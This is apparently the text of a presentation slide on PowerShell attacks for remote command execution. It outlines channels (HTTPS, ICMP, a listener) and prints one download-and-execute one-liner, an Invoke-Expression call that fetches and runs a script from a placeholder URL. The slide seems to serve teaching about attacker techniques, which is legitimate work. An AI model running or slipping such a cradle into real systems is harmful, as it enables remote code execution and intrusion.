

Attack with Powershell
Remote Command Execution

Internet-based:
Periodically download and execute a script:
Website (HTTPs): Invoke-Expression(New-Object Net.WebClient).DownloadString('http://url.for.script’)
ICMP
Open a listener